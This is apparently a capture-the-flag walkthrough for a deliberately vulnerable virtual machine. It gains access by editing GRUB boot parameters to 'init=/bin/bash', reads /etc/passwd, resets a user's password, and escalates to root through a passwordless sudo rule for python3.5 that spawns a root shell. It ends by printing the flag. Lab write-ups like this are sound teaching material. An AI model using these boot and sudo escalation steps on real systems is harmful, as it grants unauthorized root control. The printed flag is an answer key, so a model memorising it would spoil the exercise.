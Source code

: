 

1. Log in and Obtain the IP Address

Start the virtual machine and when you get to GNU GRUB menu press e to edit the boot parameters.

Scrolling a bit down you should see a line that starts with linux /boot/vmlinuz-4.4.0-194 etc, at the end of the line write 
    init=/bin/bash 

Username can be found with this command
    cat /etc/passwd
Username is shrek

Password can be changed with this command
    passwd shrek

I got IP address using this command

    ifconfig

The address is this 

    10.0.2.15

2. Escalate Privileges

Escalate Privileges
Make a script named exploit.py

    nano exploit.py

In exploit.py type

    import subprocess

    subprocess.call(["/bin/bash", "-c", "whoami && id"])

Then make script executable using the chmod command

    chmod +x exploit.py

And since user shrek is allowed to run /usr/bin/python3.5 as root without a password prompt, you can execute the Python script using sudo

    sudo /usr/bin/python3.5 exploit.py

Use this command to elevate users privileges

    sudo /usr/bin/python3.5 -c 'import os; os.system("/bin/bash")'

Verify root access:

        whoami

3. Find the Flag

Search for the Flag File

By looking around root.txt can be found 

Read the Flag File

    cat /root/root.txt

Flag: 01Talent@nokOpA3eToFrU8r5sW1dipe2aky
